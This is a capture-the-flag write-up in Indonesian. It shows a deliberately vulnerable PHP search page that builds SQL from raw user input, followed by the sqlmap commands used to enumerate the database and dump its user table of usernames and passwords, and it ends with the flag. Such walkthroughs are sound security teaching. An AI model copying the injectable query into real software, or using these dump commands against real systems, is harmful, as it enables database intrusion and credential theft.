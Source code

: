 # Are you blind yes maybe

diberikan sebuah web berisi sebuah inputan <br><br>
<img src="img.png"><br><br>
berikut berupa source code web tsb<br>
```
<html> 
<head> 

</head> 
<body> 
<h1>OTICtf</h1> 
<div id="content"> 

<?php

$servername = "localhost";
$user = "<censored>";
$pass = "<censored>";
$dbname = "sql";

// Create connection
$link = new mysqli($servername, $user, $pass, $dbname);
// Check connection
if ($link->connect_error) {
    die("Connection failed: " . $link->connect_error);
}

/* 
CREATE TABLE `post` (
  `ID` INT(11),  
  `Title` varchar(100), 
  `Text` text,
  `Time`datetime on update CURRENT_TIMESTAMP
);

CREATE TABLE `user` (
  `ID` INT,  
  `username` varchar(10), 
  `password` varchar(60) 
);

*/ 

if(array_key_exists("search", $_REQUEST)) {
        
    $search=$_REQUEST["search"];

    $query = "SELECT * FROM post WHERE Title LIKE \"%".$search."%\" or Text LIKE  \"%".$search."%\"";  
    
    $res = $link->query($query);

    if ($res->num_rows > 0) {
        echo "keyword found";

    } else {
        echo "keyword not found";
    }
    $link->close(); 
}else{
?>
<form action="index.php" method="POST">
Search:<input name="search"><br>
<input type="submit" value="search" />
</form>
<div id="viewsource"><a href="index-source.txt">View sourcecode</a></div>

<?php
$query = "SELECT * FROM post ";
$res = $link->query($query);
echo "<br>";
if ($res->num_rows > 0) {
    // output data of each row
    while($row = $res->fetch_assoc()) {
        echo "<h2>" . $row["Title"]. "</h2>" ;
        echo "<p>" . $row["Text"]. "</p>" ;
        }
}else{
        echo "0 result";
    }

} 
?>
 
</div> 
</body> 
</html> 
```
<br>
diketahui bahwa terdapat celah sqli  pada form tersebut dengan method POST <br>
dicoba dengan melakukan blind sql Injection dengan bantuan sqlmap <br><br>

``` sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST --dbs ``` <br>

didapat sebuah database bernama `sql`, kita coba temukan tabelnya<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --tables -D \`sql\` ``` <br>

didapat sebuah tabel 'user', coba cek isinya terlebih dahulu.<br>
```  sqlmap -u "http://202.43.92.132:40001/index.php" --data="search=*&form=submit" --method POST  --columns -D \`sql\` -T user ``` <br>


didapat hal yang mencurigakan yaitu username dan pasword, langsung saja lakukan dump <br>
``` sqlmap -u http://202.43.92.132:40001/index.php --data="search=s&form=submit" --method POST --dump -D \`sql\` -T user ```<br>

<img src="sqlmap.jpg"><br>

**ASGama{L00k1ng_f0R_s0m3_fl4g?}**
